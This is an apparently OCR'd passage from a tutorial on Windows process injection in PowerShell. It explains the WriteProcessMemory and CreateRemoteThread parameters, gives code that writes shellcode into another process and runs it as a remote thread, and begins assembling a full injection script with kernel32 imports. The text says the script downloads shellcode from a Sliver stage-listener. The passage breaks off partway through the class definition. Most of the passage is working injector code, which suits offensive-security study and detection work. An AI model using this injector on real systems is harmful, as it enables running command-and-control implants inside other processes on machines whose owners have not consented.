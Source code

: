 ```
# Write the shellcode to allocated memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, $size.ToUInt32(), [ref]$writtenBytes)
```

### CreateRemoteThread

Finally, we create a thread in the target process to execute our shellcode. The CreateRemoteThread function is defined as:

```
CreateRemoteThread(HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
```

 hProcess - Our process we've allocated and wrote shellcode to that we now want to execute as a remote thread ($process)
 
 lpThreadAttributes -Defines the security attributes for the thread. IntPtr.Zero initializes default settings.
 
 dwStackSize - Size of the stack for the new thread; 0 for default size
 
 lpStartAddress - Address where execution should begin, which is where we allocated them memory to ($memAddr)
 
 lpParameter - Additional parameters for the thread function; \[System.IntPtr\]::Zero since we don't need any.
 
 dwCreationFlags - The flags used to control thread creation. The flag 0 is used for immediate execution, so I'll use that.
 
 lpThreadId -  Optional parameter to store the thread ID; we can pass \[System.IntPtr\]::Zero since we don't need this, or we can create a variable called ($threadId) initialized as 0 and reference it in the function to update the variable with the executed threadID.
 
```
# Execute the shellcode
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)
```

## New Process Injection Script

Now that we analyzed and performed the steps necessary to perform process injection, we get to slap it all together. First, we must recognize that the functions I am using are C# functions and I am using them in Powershell, so I have to define a C# class which imports the necessary functions from the kernel32 DLL file. Additionally, I have to also actually download the shellcode from the sliver stage-listener and store that in a variable. After doing so, I final script looks like this.

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint DesiredAcess, bool bInheritHandle, int ProcessID);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr Process, IntPtr StartAddress, UIntPtr shellcodeSize, uint AllocationType, uint MemProtectConstraint);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr Process, IntPtr StartAddr, byte[] Shellcode, uint  shellSize, out UIntPtr BytesWritten);
```
